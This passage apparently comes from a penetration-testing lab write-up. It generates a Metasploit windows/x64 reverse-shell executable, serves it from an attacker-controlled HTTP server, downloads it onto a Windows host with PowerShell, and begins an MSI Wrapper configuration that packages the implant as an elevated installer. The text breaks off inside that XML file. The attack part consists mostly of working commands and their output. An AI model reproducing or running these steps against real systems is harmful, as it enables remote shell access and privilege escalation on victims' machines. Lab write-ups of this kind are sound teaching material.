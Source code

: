 {{< image src="/images/posts/msi-wrapper-5.png" caption="MSI Wrapper " src_s="/images/posts/msi-wrapper-5.png" src_l="/images/posts/msi-wrapper-5.png" >}}

Optionally, we could create a desktop shortcut or pin to the taskbar:

{{< image src="/images/posts/msi-wrapper-6.png" caption="MSI Wrapper " src_s="/images/posts/msi-wrapper-6.png" src_l="/images/posts/msi-wrapper-6.png" >}}

Generate an executable reverse shell:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o implant.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: implant.exe
```

Setup an HTTP listener:

```bash
❯ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.119.129 - - [06/Mar/2022 17:54:06] "GET /implant.exe HTTP/1.1" 200 -
```

Download the file with powershell:

```powershell
PS C:\Tools> wget 192.168.119.130/implant.exe -O implant.exe
```

This will be the MSI wrapper configuration file `msi_template.xml`:

```xml
<MsiWrapper>
  <Installer>
    <IconFile Detect="executable" Value="" />
    <Output FileName="C:\Tools\implant.msi" />
    <InstallPrivileges Value="Elevated" />
    <PerUser Value="yes" />
    <ElevateExecutable Value="always" />
    <UpgradeCode Value="{55F46570-1C98-4098-9191-18B383E567D3}" />
    <ProductId Value="" />
    <Registration Value="None" />
    <Manufacturer Detect="" Value="Holo Industries" />
    <ProductVersion Detect="executable" Value="0.0.0.0" />
    <ProductName Detect="" Value="Holo" />
    <Comments Detect="executable" Value="" />
    <Contact Detect="" Value="" />
    <HelpLink Detect="" Value="" />
    <UpdateLink Detect="" Value="" />
    <AboutLink Detect="" Value="" />
  </Installer>
  <WrappedInstaller>
    <Executable FileName="C:\Tools\implant.exe" SuccessCodes="" Impersonate="no" IncludeFiles="no" CompressionLevel="Max" />
    <ApplicationId Value="" />
    <Install>
      <Arguments Value="">
        <UILevelNone Value="" />
        <UILevelBasic Value="" />
        <UILevelReduced Value="" />
        <UILevelFull Value="" />
      </Arguments>
      <RunBeforeInstall Value="" />
```